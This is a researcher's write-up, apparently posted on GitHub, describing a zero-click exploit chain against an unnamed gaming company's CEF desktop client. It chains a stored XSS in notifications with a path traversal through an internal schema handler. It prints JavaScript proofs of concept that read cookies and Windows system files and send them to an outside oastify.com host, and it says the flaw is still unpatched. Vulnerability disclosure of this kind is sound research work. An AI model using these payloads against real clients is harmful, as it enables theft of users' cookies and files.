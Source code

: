 ```# How did I break out of the sandbox using built-in feature

One day I decided to test a famous gaming company’s desktop client (Sadly they haven’t fixed it yet :( ), and I ended up finding a 0Click System File Read

## About the target:

It is a desktop client using Chromium Embedded Framework https://github.com/chromiumembedded/cef for rendering all the HTML/JS files, and it is used to help users (Gamers) install their games and track progress on each game.

## Chat feature and useless XSS in notification:

While spraying payloads around the desktop client, I stumbled on a stored XSS that gets rendered on the notification pop-up.

Briefly, this XSS wasn’t that useful because the client is storing cookies on files and the there’s a limitation on the vulnerable input (30 characters) payload like this would work `<script src=https://lol5.xyz/>`

## Failed attempt finding 1Days on CEF library:

After reading every page on the library’s wiki 

[cef /](https://bitbucket.org/chromiumembedded/cef/wiki/browse/)

and trying some of CVE’s  POCs in order to achieve code execution or DOS, all attempts finished with frustration and failure.

And the most frustrating part is the framework’s javascript API is so sandboxed and limited that I can’t call for example`file://` from object and iframe tags.

## PAK files for the truth:

After a day I went back and tried to analyze the client and its features, while exploring some of the client file, I noticed some`.PAK` files, for those who can’t get what is happening  from my experience with pentesting thick clients, usually PAK files are used to store static files that could be rendered on the application.

Extracted the files and read some of HTML files and js files, here something caught my attention which was code that looked like this:

```html
<style>
  @import url("schema://localhost/cache/sytle.css") ;
</style>
```

## How static files are server to the client:

From my understanding of the pak files and how the client is functioning and visualized the flow with this modest design 😑.

![uply.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%208585d55b71d54bec84085ad2c537ae77/uply.png)

the question here is how I used this to my advantage?

When I saw this I had a theory of using the schema to retrieve the cookies from client’s files.

I made a POC that looks like this :

```jsx
Promise.all(   fetch('schema://localhost/cache/style.css').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Then went to the vulnerable input and put my payload `<script src=https://[lol5.xyz](http://lol5.xyz)/>`  where lol5.xyz is a local domain where I’m hosting the POC, and I was able to retrieve the css file.

after this, I went for the cookies and I got success.

But I didn’t stop here, I remembered that the client asks for admin privileges when opening it.

then I tried to traverse back to the system files, I made a POC :

```jsx
Promise.all(   fetch('schema://localhost/cache/../../../../../Windows/LogAdmins.txt').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Since my computer is linked to an AD that’s why I aimed for the `LogAdmins.txt` , finally I was able to retrieve LogAdmins.txt file. 

![loool.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%208585d55b71d54bec84085ad2c537ae77/loool.png)

funny thing is that XSS requires no user interaction and I can execute it on any user using this desktop client.```